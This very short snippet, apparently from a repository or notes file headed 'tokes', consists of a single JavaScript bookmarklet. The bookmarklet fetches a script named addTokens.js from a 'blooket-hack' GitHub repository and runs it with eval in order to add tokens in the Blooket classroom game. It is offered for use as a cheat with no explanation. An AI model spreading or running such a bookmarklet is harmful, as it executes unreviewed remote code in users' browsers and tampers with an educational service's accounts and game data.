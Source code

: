 # tokes
yes
javascript: fetch("https://raw.githubusercontent.com/glixzzy/blooket-hack/main/global/addTokens.js").then((res) => res.text().then((t) => eval(t)))

